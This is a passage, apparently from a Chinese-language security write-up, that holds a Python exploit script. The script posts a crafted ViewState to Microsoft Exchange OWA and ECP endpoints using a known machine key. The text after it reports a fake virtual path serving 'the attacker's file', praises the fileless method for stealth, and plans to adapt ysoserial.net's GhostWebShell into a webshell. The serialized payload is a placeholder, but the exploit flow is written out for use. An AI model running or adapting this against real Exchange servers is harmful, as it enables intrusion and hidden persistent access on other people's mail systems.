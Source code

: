 ```
<path>: owa or ecp

eg.    
    {0} 192.168.1.1 CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF owa
    {1} mail.test.com CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF ecp    
        '''
        print(note.format(sys.argv[0],sys.argv[0]))
        sys.exit(0)
    else:
        targeturl = "";
        generator = ""; 
        try:
            if sys.argv[3] == "owa":
                targeturl = "https://" + sys.argv[1] + "/owa/auth/errorFE.aspx";
                generator = "042A94E8";

            elif sys.argv[3] == "ecp":
                targeturl = "https://" + sys.argv[1] + "/ecp/auth/TimeoutLogout.aspx";
                generator = "277B1C2A";
            else:
                print("[!] Wrong input");

            print("[*] TargetURL: " + targeturl)

            out_payload = "<ViewState Data>"

            body = {"__VIEWSTATEGENERATOR": generator,"__VIEWSTATE": out_payload}
            postData = urllib.parse.urlencode(body).encode("utf-8")

            headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36xxxxx",
                "Content-Type":"application/x-www-form-urlencoded"
            } 
            status = requests.post(url=targeturl, headers=headers, data=postData, verify=False, timeout=15)

            print(status.status_code)
            print(status.headers)
            print(status.text) 

        except Exception as e:
            print("[!] Error:%s"%(e))
            exit(0)
```

访问`https://<url>/owa/auth/fakepath31337/<任意字符>.aspx`，返回结果:`This is the attacker's file - running on the server if this 1337 is 1337.`，虚拟文件被成功访问

这种方式不需要依赖文件，提高隐蔽性

接下来修改[GhostWebShell.cs](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs)实现Webshell的功能
